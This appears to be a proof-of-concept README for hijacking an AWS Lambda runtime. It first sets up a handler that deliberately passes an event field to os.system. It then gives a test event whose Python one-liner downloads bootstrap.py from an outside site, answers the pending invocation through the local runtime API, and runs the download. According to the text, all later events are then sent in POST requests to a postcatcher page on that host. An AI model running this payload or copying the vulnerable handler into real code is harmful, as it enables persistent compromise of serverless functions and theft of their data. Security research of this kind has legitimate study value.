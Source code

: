 # Instructions for POC

- Create a new lambda with a python 3.8 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\""
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt
